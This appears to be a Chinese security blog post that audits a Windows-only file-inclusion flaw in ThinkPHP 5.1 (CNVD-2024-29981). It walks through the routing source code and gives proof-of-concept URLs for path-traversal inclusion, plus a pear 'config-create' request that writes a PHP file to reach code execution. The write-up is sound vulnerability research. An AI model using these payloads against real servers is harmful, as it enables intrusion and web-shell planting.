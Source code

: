 ```yaml
---
layout: post
date: 2024-4-24
title: "Thinkphp5.1文件包含-CNVD-2024-29981"
author: "XinYiSleep"
category: Java
---
```

<h1 id="XvOCI">一.基础信息</h1>

```
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331415510.jpg)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
http://127.0.0.1/index.php/index/index/hello
http://127.0.0.1/index.php?s=index/index/hello
//简单一点来说其实就是对应的 模块/控制器/方法
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331708376.jpg)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331771501.jpg)  
进入run方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331806586.jpg)  
走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331839134.jpg)  
600行path方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331875986.jpg)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331988576.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332007814.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332031638.jpg)
然后就直接return了，在看看init方法做了什么。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332049247.jpg)
**parseUrl方法是把路由进行分割成数组**，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332109398.jpg)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332132336.jpg)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332177125.jpg)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332209008.jpg)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332239058.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332269204.jpg)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332296430.jpg)  
也就是看文件是否存在，再去loadFile方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332318589.jpg)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332347707.jpg)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332372496.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332400070.jpg)
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332418019.jpg)

